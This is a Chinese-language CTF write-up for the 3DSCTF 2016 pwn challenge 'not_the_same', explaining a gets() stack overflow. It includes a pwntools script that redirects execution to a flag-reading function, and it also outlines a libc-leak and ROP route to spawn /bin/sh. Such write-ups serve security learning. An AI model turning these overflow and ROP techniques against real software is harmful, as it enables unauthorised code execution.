



## 0x001 程序分析

分析main函数



这个倒也没什么好分析的，程序很短，使用 **get** 接收输入.

## 0x002 漏洞分析

漏洞位于main函数中，在使用 **get** 函数接收输入时，未对输入内容的长度做校验，导致可以使输入内容覆盖到返回地址。

## 0x003 漏洞利用

分析了下程序中的其他函数，发现有个函数 **get_secret**，可以直接读取 **flag.txt** 文件内容，并将结果保存到全局变量 **fl4g** 中。



使用checksec查看程序



程序只开启了NX保护，那么这个漏洞利用就很简单，首先通过溢出覆盖返回地址到 **get_secret** 函数处读取 **flag.txt** 文件内容，然后调用 **printf** 函数打印全局变量 **fl4g** 的值，就可以获取flag了。

python3 exp如下：
```
from pwn import *

p = process("./not_the_same_3dsctf_2016")

# payload = 填充 + get_secret() + printf_plt + exit() + fl4g
payload = b"A" * 0x2d + p32(0x80489a0) + p32(0x804f0a0) + p32(0x804e660) + p32(0x80eca2d)

p.sendline(payload)
print (p.recv())
```

这里为什么要在调用完printf之后，调用exit呢？因为远程连接，如果程序不正常返回，是不会有回显的，也就接收不到打印的flag了。

还有另一种方式，就是通过printf泄露函数的真实地址，使用LibcSearcher或DynELF泄露libc中system及/bin/sh的真实地址，然后就可以通过ROP构造执行system("/bin/sh")指令的payload，可直接获取系统权限。